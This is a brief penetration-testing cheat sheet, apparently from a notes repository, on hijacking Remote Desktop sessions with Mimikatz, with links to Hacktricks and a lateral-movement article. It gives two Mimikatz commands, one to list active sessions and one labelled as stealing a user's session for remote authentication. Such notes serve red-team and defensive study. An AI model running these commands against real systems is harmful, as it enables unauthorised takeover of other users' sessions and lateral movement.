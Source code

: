 # Binaries

# Mimikatz

List active user sessions

```
mimikatz # ts::sessions
```

Steal user session to authenticate the machine remotely

```
mimikatz # ts::remote /id:<id_number>
```

---
## References

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)